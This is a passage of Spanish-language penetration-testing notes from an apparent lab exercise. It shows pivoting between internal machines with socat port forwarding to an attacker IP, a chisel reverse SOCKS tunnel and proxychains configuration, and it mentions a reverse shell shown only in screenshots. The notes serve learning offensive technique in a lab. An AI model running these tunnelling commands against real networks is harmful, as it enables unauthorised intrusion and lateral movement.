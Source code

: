 Ahora dentro de la máquina friendly 1 tengo que pasarme el chisel, primero compartiéndolo a través de un servidor http con python pasándo por el proxychains:
![[Mis apuntes/ANEXOS/Pasted image 20230816161253.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230816161218.png]]
Y ahora lo que debemos hacer es primero ejecutar el socat dentro de friendly 3, de tal forma que diremos que el tráfico del puerto 4444 lo envíe al puerto 1234 de nuestra máquina atacante, que es donde tendremos el chisel:
```bash
./socat tcp-l:4444,fork,reuseaddr tcp:192.168.0.30:1234
```
![[Mis apuntes/ANEXOS/Pasted image 20230816161901.png]]
Y ahora con chisel, desde la máquina friendly 1, tenemos que decir que todo el tráfico lo envíe a la máquina friendly 3 donde tenemos el socat, que en este caso la friendly 3 tiene la IP 192.168.0.21:
```bash
./chisel client 192.168.0.21:4444 R:8888:socks
```
![[Mis apuntes/ANEXOS/Pasted image 20230822122607.png]]
Y habremos recibido la conexión en nuestra máquina local con el chisel:
![[Mis apuntes/ANEXOS/Pasted image 20230816162216.png]]
Ahora vamos a editar el archivo de proxychains y descomentamos la línea donde dice scritc_chain:
![[Mis apuntes/ANEXOS/Pasted image 20230816162618.png]]
Y comentamos esta línea:
![[Mis apuntes/ANEXOS/Pasted image 20230816162719.png]]
Y abajo del todo añadimos el nuevo túnel que habíamos creado por el puerto 8888:
![[Mis apuntes/ANEXOS/Pasted image 20230816162645.png]]
Y ahora si hacemos un whatweb a esta IP vemos que llegamos correctamente:
![[Mis apuntes/ANEXOS/Pasted image 20230822183346.png]]
Y la vemos en el navegador:
![[Mis apuntes/ANEXOS/Pasted image 20230822183359.png]]
Y podemos incluso enviarnos una reverse shell y entablar conexión desde esta máquina a la atacante:
![[Mis apuntes/ANEXOS/Pasted image 20230822183902.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230822183909.png]]
En esta máquina nos volvemos a bajar el chisel:
![[Mis apuntes/ANEXOS/Pasted image 20230822184710.png]]

